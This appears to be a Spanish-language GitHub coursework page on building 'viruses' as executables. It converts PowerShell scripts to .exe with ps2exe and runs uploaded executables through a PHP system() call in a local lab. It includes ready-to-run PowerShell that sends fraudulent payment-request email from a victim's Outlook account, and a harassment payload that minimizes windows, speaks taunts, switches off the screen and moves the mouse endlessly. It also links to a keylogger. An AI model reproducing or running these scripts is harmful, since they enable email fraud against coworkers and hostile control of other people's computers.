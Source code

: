# CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>

Para mas dudas con la instalación visita.
 [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/)
## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

### MOLESTAR
<p align="center">
<img src="https://media.giphy.com/media/eaECZB7V6GACc/giphy.gif" />
</p>
<br/>
Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.

```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
```




### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
